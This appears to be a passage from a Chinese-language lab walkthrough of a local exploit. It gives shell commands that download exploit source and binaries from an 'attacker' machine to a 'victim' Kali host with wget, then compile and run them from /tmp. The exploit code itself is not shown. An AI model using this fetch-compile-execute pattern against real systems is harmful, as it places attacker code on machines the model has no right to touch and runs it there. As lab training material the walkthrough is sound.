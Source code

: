 31.在 192.168.62.171 上执行(受害机器，Kali Linux 2022.1 x86)。

从 Kali 攻击者机器下载漏洞源代码和编译版本。

```
file=exploit-1
LHOST=192.168.62.161
LPORT=80
files="${file}.c  ${file}_x86 ${file}_x64"
for file in $(echo $files); do wget --no-verbose http://${LHOST}:${LPORT}/${file} -O /tmp/${file}; chmod 755 /tmp/${file}; done
```

![](img/901b97434948c8008445796453e13e38.png)

23.在 192.168.62.171 上执行(受害机器，Kali Linux 2022.1 x86)。

编译漏洞。

```
file=exploit-1
gcc -o /tmp/${file} /tmp/${file}.c
```

![](img/f4406c7f78a26f1d5a7623bcff6dcc58.png)

33.在 192.168.62.171 上执行(受害机器，Kali Linux 2022.1 x86)。

执行漏洞利用。

```
file=exploit-1
/tmp/${file}
```

![](img/1d0ec39b45ccf1941d750412545ef501.png)
